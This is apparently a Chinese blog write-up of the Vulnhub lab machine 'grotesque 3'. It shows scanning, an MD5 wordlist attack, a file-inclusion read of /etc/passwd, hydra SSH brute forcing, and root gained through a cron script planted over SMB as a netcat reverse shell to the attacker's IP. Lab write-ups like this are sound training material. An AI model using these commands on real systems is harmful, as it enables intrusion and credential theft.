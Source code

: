 ```yaml
---
layout: post
title: grotesque 3
subtitle: grotesque 3
date: 2023-07-18 16:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
number headings: first-level 3, max 4, 1.1., auto
---
```


### 1. 信息搜集

IP 扫描，发现主机 `192.168.163.142`

![image.png](https://img.ghostliner.top/mCSICN.png)

端口扫描，发现 80、22 端口

```shell
nmap -A -p- 192.168.163.142
```

![image.png](https://img.ghostliner.top/8D8uXo.png)

目录扫描，但未扫到任何东西

```shell
dirsearch -u http://192.168.163.142 -e* -i 200
nikto -h 192.168.163.142
dirb http://192.168.163.142
```

访问网站，发现链接

![image.png](https://img.ghostliner.top/8pFKYf.png)

访问链接： <http://192.168.163.142/atlasg.jpg> 发现一张图片

从图片中找有字符的地方

![image.png](https://img.ghostliner.top/cPcVDy.png)

有 `M` ，`D` 和 5 个 `X`，暗示 MD5

使用 atlasg、atlasg.jpg 和图片文件的 MD5 值尝试访问失败

### 2. 目录爆破

生成 MD5 的目录字典

```shell
for i in $(cat /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt); do echo $i | md5sum >> md5.txt; done
```

vim 删除多余字符

```vim
:%s/  -//g
```

```shell
dirsearch -w md5.txt -u http://192.168.163.142 -f php
```

![image.png](https://img.ghostliner.top/QMVN2d.png)

<http://192.168.163.142/f66b22bf020334b04c7d0d3eb5010391.php>

```shell
wfuzz -w /usr/share/wordlists/rockyou.txt -u http://192.168.163.142/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=/etc/passwd --hw 0
```

发现文件包含漏洞

![image.png](https://img.ghostliner.top/LMjc9X.png)

发现用户：`freddie`

![image.png](https://img.ghostliner.top/qviORT.png)

尝试日志注入，无法获取日志文件，尝试爆破 ssh

### 3. SSH 爆破

使用之前生成的 MD5 字典进行爆破

```shell
hydra -l freddie -P md5.txt ssh://192.168.163.142
```

![image.png](https://img.ghostliner.top/F8whFB.png)

获得密码：`61a4e3e60c063d1e472dd780f64e6cad`

ssh 登陆成功，发现日志文件目录权限高，无法访问

![image.png](https://img.ghostliner.top/GLqBEW.png)

查看家目录

![image.png](https://img.ghostliner.top/3cRIWy.png)

查看 flag 文件

![image.png](https://img.ghostliner.top/D60gui.png)

查看端口服务，发现 139、445

```shell
ss -tnlp
```

![image.png](https://img.ghostliner.top/D6Kbdx.png)

使用 smbclient 访问 SMB 服务中的文件共享

```shell
smbclient -L 127.0.0.1
```

发现目录 `grotesque`

![image.png](https://img.ghostliner.top/aVknwb.png)

查看，无内容

![image.png](https://img.ghostliner.top/caTICs.png)

下载 pspy64 [DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy?tab=readme-ov-file) 监控 Linux 进程和定时任务

上传到目标机

![image.png](https://img.ghostliner.top/AIFk9w.png)

```shell
chmod +x pspy64
./pspy64
```

发现每分钟以 root 身份执行`/smbshare`目录下脚本

![image.png](https://img.ghostliner.top/dwYK0C.png)

### 4. root 提权

添加自定义脚本，反弹 shell

```shell
echo 'nc -nv 192.168.163.132 4444 -e /bin/bash' > shell.sh
```

直接写入无权限，利用 smb 传入脚本文件

```shell
smbclient //127.0.0.1/grotesque
put shell.sh
```

![image.png](https://img.ghostliner.top/k86oxf.png)

kali 开启监听 `nc -lvp 4444`

连接成功获取到 flag

![image.png](https://img.ghostliner.top/P5Gqum.png)
